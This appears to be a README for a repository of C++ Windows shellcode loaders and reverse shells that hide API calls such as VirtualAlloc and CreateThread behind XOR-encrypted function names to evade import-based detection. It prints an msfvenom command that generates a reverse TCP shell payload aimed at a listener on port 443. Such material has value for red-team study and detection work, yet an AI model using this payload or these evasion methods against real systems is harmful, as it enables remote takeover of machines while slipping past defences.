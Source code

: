 # Function Call Obfuscation

## Details
This was inspired by `https://jamespatricksec.medium.com/function-call-obfuscation-51f6bb171767` and `https://medium.com/@irfanbhat3/function-call-obfuscation-1bcd58e62b8e` where it is discussed and shown how to *obfuscate function calls* for **Windows binaries**.

The `Original.cpp` contains the original function calls before any obfuscation.

The `SC_Rev.cpp` obfuscates `VirtualProtect`, `VirtualAlloc`, `CreateThread` `WaitForSingleObject`. Both use the **standard msfvenom** shellcode with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f c -v shellcode_payload` for testing purposes.

The `XOR_Rev.cpp` uses a **basic xor encryption** for the shellcode utilizing the `sc_xor.cpp` file.

The `Rev.cpp` is originally found in `https://github.com/tihanyin/Simple-Reverse-Shell/blob/main/Reverse_shell_2021_12.cpp` with some minor modifications and obfuscating the `CreateProcess` function call.

All of them use the `func_xor.cpp` script for **xor encryption** of the function name.

## Compiling
1. For both `func_xor.cpp` and `sc_xor.cpp` use `g++ func_xor.cpp -o func_xor` if compiling on **Linux**

2. For the others, you **Console App C++** in *Visutal Studio*. Use the `Release x64` option when building the binary.

## Check Imports
1. You can check imports using `https://github.com/Delphier/dumpbin` with `.\dumpbin.exe /imports file.exe`
